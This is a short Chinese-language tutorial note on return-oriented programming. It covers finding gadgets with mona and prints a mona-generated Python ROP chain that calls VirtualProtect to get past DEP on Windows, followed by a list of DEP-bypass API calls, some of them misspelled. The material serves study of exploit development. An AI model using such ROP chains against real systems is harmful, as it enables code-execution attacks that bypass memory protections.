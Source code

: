 # Return-oriented programming（返回导向编程）

寻找 gadgets
找到可用的 如</br>
```
pop eax
ret
```

这些 gadgets 可以是简单的诸如 pop 指令、mov 指令等操作码序列，关键是要以 ret 指令结尾，以便能够控制程序流程</br>
通过mona工具快速找到部件</br>
命令`!mona rop -m *.dll`或`!mona rop`

### 构造 ROP 链
基于找到的 gadgets 和规划好的攻击流程，将 gadgets 按照正确的顺序排列在栈上
~~~
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x7647d922,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0x761415a4,  # ptr to &VirtualProtect() [IAT KERNEL32.DLL] ** REBASED ** ASLR
      0x763ddf7a,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0x77dec2c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_ebp:---]
      0x77c5d01f,  # POP EBP # RETN [ucrtbase.dll] ** REBASED ** ASLR 
      0x76368aa5,  # & call esp [KERNELBASE.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ebx:---]
      0x764af47a,  # POP EBX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0x00000201,  # 0x00000201-> ebx
      #[---INFO:gadgets_to_set_edx:---]
      0x77bc2af0,  # POP EDX # RETN [ucrtbase.dll] ** REBASED ** ASLR 
      0x00000040,  # 0x00000040-> edx
      #[---INFO:gadgets_to_set_ecx:---]
      0x77c1164a,  # POP ECX # RETN [ucrtbase.dll] ** REBASED ** ASLR 
      0x75aef984,  # &Writable location [VCRUNTIME140.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edi:---]
      0x77bcff89,  # POP EDI # RETN [ucrtbase.dll] ** REBASED ** ASLR 
      0x7610bfca,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_eax:---]
      0x7610b475,  # POP EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x764d3784,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
~~~
### 对抗DEP
关闭dep</br>
NtSetlnformationProcess(SetProcessDEPPolicy)</br>
修改内存属性</br>
VirtualProtected</br>
申请可执行的内存</br>
VirtulAlloc</br>